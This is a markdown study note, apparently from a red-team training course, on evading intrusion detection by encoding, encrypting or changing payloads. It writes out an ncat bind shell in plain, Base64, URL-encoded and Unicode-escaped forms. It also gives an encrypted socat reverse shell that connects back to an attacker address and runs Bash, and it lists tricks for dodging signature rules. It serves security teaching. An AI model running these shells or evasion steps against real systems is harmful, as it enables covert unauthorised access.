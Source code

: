 # Evasion via payload manipulation

Evasion via payload manipulation includes:

* Obfuscating and encoding the payload.
* Encrypting the communication channel.
* Modifying the shellcode.

## Obfuscating and encoding the payload

Because IDS rules are very specific, minor changes to avoid detection can work. The changes include adding extra bytes, 
obfuscating the attack data, and encrypting the communication.

Consider the command `ncat -lvnp 1234 -e /bin/bash`, where `ncat` will listen on TCP port `1234` and connect any 
incoming connection to the Bash shell. There are a few common transformations such as Base64, URL encoding, and 
Unicode escape sequence that can be applied to the command to avoid triggering IDS/IPS signatures.

Encode to a Base64 format:

```text
$ cat input.txt
ncat -lvnp 1234 -e /bin/bash
$ base64 input.txt
bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==
```

URL encoding:

```text
$ urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
```

## Escaped Unicode

Some applications will still process input and execute it properly if escaped Unicode is used. There are multiple 
ways to use escaped Unicode depending on the system processing the input string. For example, 
[CyberChef](https://icyberchef.com/)  can be used to select and configure the Escape Unicode Characters.

1. Search for Escape Unicode Characters
2. Drag it to the Recipe column
3. Check-mark Encode all chars with a prefix of `\u`
4. Make sure there is a check-mark near Uppercase hex with a padding of 4

| ![Cyberchef](/_static/images/cyberchef-netsec.png) |
|:--:|
| Clearly a drastic transformation that would help evade detection, assuming the target system will <br>interpret it correctly and execute it. |

Using the format `\uXXXX`, `ncat -lvnp 1234 -e /bin/bash` becomes: 

    \u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068 

## Encrypting the communication channel

Because an IDS/IPS will not inspect encrypted data, an attacker can take advantage of encryption to evade detection. 
Unlike encoding, encryption requires an encryption key and decrypting on the other side.

One direct approach is to create the necessary encryption key on the attacker’s system and set socat to use the 
encryption key to enforce encryption as it listens for incoming connections. An encrypted reverse shell can be 
carried out in three steps:

1. Create the key
2. Listen on the attacker’s machine
3. Connect to the attacker’s machine

Create key using `openssl`:

    $ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
    $ ls
    thm-reverse.crt  thm-reverse.key

* `req` indicates that this is a certificate signing request (not submitting it for signing).
* `-x509` specifies an X.509 certificate
* `-newkey rsa:4096` creates a new certificate request and a new private key using RSA, with the key size being 4096 
bits.
* `-days` validity in days
* `-subj` sets data, such as organization and country, via the command-line.
* `-nodes` simplifies the command and does not encrypt the private key
* `-keyout` PRIVATE_KEY specifies the filename to save the private key to
* `-out` CERTIFICATE specifies the filename to which to write the certificate request

The command returns a private key `thm-reverse.key` and a certificate `thm-reverse.crt`.

The Privacy Enhanced Mail (PEM) `.pem` file requires the concatenation of the private key `.key` and the certificate 
`.crt` files:

    cat thm-reverse.key thm-reverse.crt > thm-reverse.pem

With the PEM file ready, start listening while using the key for encrypting the communication with the client:

    socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

On the target system, connect back:

    socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash

## Modifying the shellcode

Consider the simple case of using Ncat to create a bind shell. The command `ncat -lvnp 1234 -e /bin/bash` tells 
ncat to listen on TCP port 1234 and bind Bash shell to it. To detect packets containing such commands, think of 
something specific to match the signature but not too specific. So will attackers:

* Scanning for `ncat -lvnp` can be easily evaded by changing the order of the flags.
* On the other hand, inspecting the payload for `ncat -` can be evaded by adding an extra white space, such as 
`ncat  -` which would still run correctly on the target system.
* If the IDS is looking for `ncat`, then simple changes to the original command are unlikely to evade detection. 
Consider more sophisticated approaches depending on the target system/application. One option would be to use a 
different command such as nc or socat. Alternatively, consider a different encoding if the target system can 
process it properly.

## Resources

* [section 2.4 in RFC 3986 (URL encoding: When to Encode or Decode)](https://datatracker.ietf.org/doc/html/rfc3986#section-2.4)

